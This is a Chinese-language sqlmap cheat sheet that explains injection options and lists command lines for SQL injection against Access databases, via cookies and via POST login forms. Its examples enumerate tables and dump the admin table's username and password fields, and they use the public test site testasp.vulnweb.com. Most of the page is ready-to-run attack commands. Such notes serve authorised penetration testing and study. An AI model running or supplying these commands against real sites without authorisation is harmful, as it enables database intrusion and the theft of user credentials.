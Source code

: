 ```
--data
使用post方式提交的时候，就需要用到data参数了

-p
当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

--level
不同的level等级，SQLMAP所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

--random-agent
使用该参数，SQLMAP会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent

--technique
这个参数可以指定SQLMAP使用的探测技术，默认情况下会测试所有的方式。
支持的探测方式如下：
B: Boolean-based blind SQL injection（布尔型注入）
E: Error-based SQL injection（报错型注入）
U: UNION query SQL injection（可联合查询注入）
S: Stacked queries SQL injection（可多语句查询注入）
T: Time-based blind SQL injection（基于时间延迟注入）
```

**Access注入**

```
sqlmap -u 注入点url //判断是否有注入

sqlmap -u 注入点url --tables //access直接猜表

sqlmap -u 注入点url  --colums -T admin //爆出admin表，猜解它的字段

sqlmap -u 注入点url  --dump -T admin -C "username,password"  //猜字段内容
```

**Cookie 注入**

网站有判断，不让用and,update等参数时就得加上Cookie。

```
sqlmap -u url --cookie="cookie值" --dbs(或)--tables --level 2
```

**POST表单注入**

注入点：

```
http://testasp.vulnweb.com/Login.asp 
```

**几种方式：**

```shell
sqlmap -r burp拦截数据.txt  # 从文件读取数据包，注入点用 * 替换

sqlmap -u http://testasp.vulnweb.com/Login.asp  --forms 

sqlmap -u http://testasp.vulnweb.com/Login.asp  --data "Name=1&Pass=1"  # 手动添加数据
```
